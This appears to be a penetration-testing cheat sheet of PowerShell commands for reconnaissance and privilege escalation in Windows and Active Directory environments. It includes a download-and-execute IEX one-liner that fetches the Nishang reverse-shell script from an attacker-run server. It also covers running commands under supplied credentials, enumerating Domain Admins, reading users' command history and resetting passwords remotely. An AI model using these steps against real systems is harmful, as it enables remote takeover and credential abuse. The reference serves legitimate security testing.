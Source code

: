 # PowerShell

Some useful PowerShell commands that you can use during your recon or privsec phases.


## Execute block as an other user

```powershell
$pass = ConvertTo-SecureString '<password>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("<dom>\<username>", $pass)
Invoke-Command -Computer <computer_name> -Credential $cred -ScriptBlock { cmd.exe "/c <cmd>" }
```


## Download and execute script

The repository [Nishang](https://github.com/samratashok/nishang) contains a good
PowerShell script to create a [reverse shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).
You need to add the following line at the end:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress <ip> -Port <port>
```

On your local machine:

- Create an HTTP server to serve the script: `python -m http.serve`
- Listen for an incoming [connection with nc](reverse-shell.md#listen-with-netcat).

On the remote host, execute the following PowerShell script:

```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>:<port>/<script_name.ps1>')
```


## Execute C# DLL from Powershell

```powershell
# Load a dll to Powershell
[Reflection.Assembly]::LoadFile("C:\Path\MyNamespace.Service.dll")
[Reflection.Assembly]::LoadFile("C:\Path\MyNamespace.Cryptography.dll")

# Call a public public static method
[MyNamespace.Service.Config]::ApplicationKey()

# Instantiate a class and class a method
$c = New-Object MyNamespace.Cryptography.MyCryptography
$c.Decrypt("CIPHER_TEXT", [MyNamespace.Service.Config]::ApplicationKey())
```


## Domain commands


### Collect AD users information

Here is snippets of Powershell commands to interact with AD LDAP. You can also
use customize filters to get vulnerable users ([SPN](./windows.md#list-spn-accounts), ...)

```powershell
# Helping functions
function Get-ADUserDirectoryEntry($user) {
    return (New-Object System.DirectoryServices.DirectorySearcher("(&(objectCategory=User)(samAccountName=$user))")).FindOne().GetDirectoryEntry()
}

function Get-ADUserGroups($user) {
    $userDirectoryEntry = Get-ADUserDirectoryEntry($user)
    $groups = $userDirectoryEntry.memberOf

    return $groups
}

function Get-ADGroupMembers($GroupName) {
    if ($GroupName -like "CN=*") {
        $GroupDistinguishedName = $GroupName
    } else {
        # find the distinguished name from the group name
        $GroupDistinguishedName = (New-Object System.DirectoryServices.DirectorySearcher("(&(objectCategory=Group)(cn=$GroupName))")).FindOne().GetDirectoryEntry().distinguishedName
    }

    # limited to the first 10k entries
    $GroupMembers = (New-Object System.DirectoryServices.DirectorySearcher("(&(objectCategory=User)(memberOf=$GroupDistinguishedName ))")).FindAll()

    return $GroupMembers.properties
}

function Get-ADComputerByOS($operatingSystem) {
    # https://ldapwiki.com/wiki/Active%20Directory%20Computer%20Related%20LDAP%20Query
    return (New-Object System.DirectoryServices.DirectorySearcher("(&(&(&(samAccountType=805306369)(objectCategory=computer)(operatingSystem=$operatingSystem*))))")).FindAll()
}

# Get "Domain admins" users, be carefull the name may change depending on the DC lang
$DomainAdmins = Get-ADGroupMembers("Domain Admins")
foreach($user in $DomainAdmins) { echo "$($user.displayname) ($($user.samaccountname))" }
```


### Get Domain Password Policy

```powershell
$policy = Get-ADDefaultDomainPasswordPolicy -Credential $cred -Server $domain
```


### Get user owner

```powershell
Get-ADUser $USERNAME | ForEach-Object {Get-ACL "AD:\$($_.DistinguishedName)" | Select-Object -ExpandProperty Owner}
```


### List deleted users

```powershell
$deletedObjectsDom = get-addomain | select DeletedObjectsContainer
$objects = Get-ADObject -SearchBase $deletedObjectsDom.DeletedObjectsContainer -ldapfilter "(objectClass=user)" -IncludeDeletedObjects -properties *
foreach ($object in $objects) { $object }
```


## Miscellaneous commands

### List TCP listening connections

The [`Get-NetTCPConnection`](https://docs.microsoft.com/en-us/powershell/module/nettcpip/get-nettcpconnection?view=win10-ps)
cmdlets lists TCP connections. By default the processes pid is return, so the
following command line select the process name instead.

```powershell
Get-NetTCPConnection -State Listen | Select local*, remote*, state, @{Name="Process";Expression={(Get-Process -Id $_.OwningProcess).ProcessName}} | Format-Table -AutoSize
```


### List Email aliases

```powershell
$ (Get-ADUser -Identity <user_ad_id> -Properties proxyAddresses).proxyAddresses
```


### Get PowerShell command history

```powershell
cd "$env:APPDATA\Microsoft\Windows\PowerShell\PSReadline"
gc ConsoleHost_history.txt
```


### Convert DACL

```powershell
$acl = get-acl HKLM:\System\CurrentControlSet\Services
ConvertFrom-SddlString -Sddl $acl -type RegistryRights | { Foreach-Object { $.DiscretionaryAcl } }
```


### Set Password Remotely

This [script](./assets/Set-PasswordRemotely.ps1) change the password of a user
on a remote forest.

```powershell
Set-PasswordRemotely {USERNAME} {DOMAIN}
```

### List Certificates

```powershell
$NamingContext = "DC=corpo,DC=lan"

$directoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Configuration,$NamingContext")
$adSearcher = New-Object System.DirectoryServices.DirectorySearcher($directoryEntry, "(distinguishedName=CN=NTAuthCertificates,CN=Public Key Services,CN=Services,CN=Configuration,$NamingContext)")
$NTAuthCertificates = $adSearcher.FindOne()
$cacertificates = $NTAuthCertificates.Properties.cacertificate

Foreach ($rawByte in $cacertificates) {
    $cacertificate = [System.Security.Cryptography.X509Certificates.X509Certificate2]$rawByte

    $subjectName = [System.Text.Encoding]::Default.GetString($cacertificate.SubjectName.RawData)
    $issuerName = [System.Text.Encoding]::Default.GetString($cacertificate.IssuerName.RawData)
    $signatureAlgorithm = $cacertificate.SignatureAlgorithm.FriendlyName
}
```
